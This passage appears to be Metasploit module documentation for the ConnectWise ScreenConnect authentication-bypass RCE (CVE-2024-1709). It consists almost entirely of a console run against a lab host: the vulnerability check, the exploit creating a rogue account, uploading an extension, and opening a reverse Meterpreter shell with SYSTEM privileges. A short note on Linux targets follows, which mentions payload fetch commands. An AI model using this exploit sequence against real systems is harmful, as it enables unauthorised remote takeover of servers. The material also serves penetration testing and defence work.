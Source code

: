 ```

Exploit target:

   Id  Name
   --  ----
   1   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > check
[*] 192.168.86.50:8040 - The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7 running on Windows.
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7 running on Windows.
[*] Created account: jwrrtiro:Jd6PXdiH2MwGw2Nq (Note: This account will not be deleted by the module)
[*] Uploaded Extension: c9bf4ee9-90b2-1ba7-ae4c-54ba6ee36a81
[*] Removing Extension: c9bf4ee9-90b2-1ba7-ae4c-54ba6ee36a81
[*] Sending stage (201798 bytes) to 192.168.86.50
[+] Deleted C:\Program Files (x86)\ScreenConnect\App_Extensions\nayjdyti.ashx
[*] Meterpreter session 3 opened (192.168.86.42:4444 -> 192.168.86.50:50550) at 2024-02-22 14:45:01 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > pwd
C:\Windows\system32
meterpreter > exit
[*] Shutting down session: 3

[*] 192.168.86.50 - Meterpreter session 3 closed.  Reason: User exit
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) >
```

#### Linux Command

Note: Linux targets run an older version of ScreenConnect, which require an older version of Linux (Ubuntu 18.04 in
our testing), so `CURL` may not be available, the `FETCH_COMMAND` can be set to `WGET` instead. The `FETCH_WRITABLE_DIR`
should be set to a suitable value like `/tmp`.
